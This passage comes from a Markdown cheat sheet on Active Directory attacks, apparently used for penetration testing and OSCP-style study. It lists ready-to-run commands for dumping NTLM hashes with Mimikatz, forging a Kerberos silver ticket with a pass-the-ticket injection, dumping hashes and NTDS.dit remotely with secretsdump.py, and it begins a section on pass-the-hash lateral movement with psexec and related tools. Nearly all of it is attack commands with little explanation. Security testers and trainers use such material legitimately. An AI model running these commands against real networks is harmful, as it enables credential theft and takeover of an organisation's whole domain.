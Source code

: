 ### Silver Tickets

- Obtaining hash of an SPN user using **Mimikatz**

```powershell
privilege::debug
sekurlsa::logonpasswords #obtain NTLM hash of the SPN account here
```

- Obtaining Domain SID

```powershell
ps> whoami /user
# this gives SID of the user that we're logged in as. If the user SID is "S-1-5-21-1987370270-658905905-1781884369-1105" then the domain   SID is "S-1-5-21-1987370270-658905905-1781884369"
```

- Forging silver ticket Ft **Mimikatz**

```powershell
kerberos::golden /sid:<domainSID> /domain:<domain-name> /ptt /target:<targetsystem.domain> /service:<service-name> /rc4:<NTLM-hash> /user:<new-user>
exit

# we can check the tickets by,
ps> klist
```

- Accessing service

```powershell
ps> iwr -UseDefaultCredentials <servicename>://<computername>
```

### Secretsdump

```powershell
secretsdump.py <domain>/<user>:<password>@<IP>
secretsdump.py uname@IP -hashes lmhash:ntlmhash #local user
secretsdump.py domain/uname@IP -hashes lmhash:ntlmhash #domain user
```

### Dumping NTDS.dit

```bash
secretsdump.py <domain>/<user>:<password>@<IP> -just-dc-ntlm
#use -just-dc-ntlm option with any of the secretsdump command to dump ntds.dit
```

## Lateral Movement in Active Directory

### psexec - smbexec - wmiexec - atexec

- Here we can pass the credentials or even hash, depending on what we have

> *Always pass full hash to these tools!*
> 
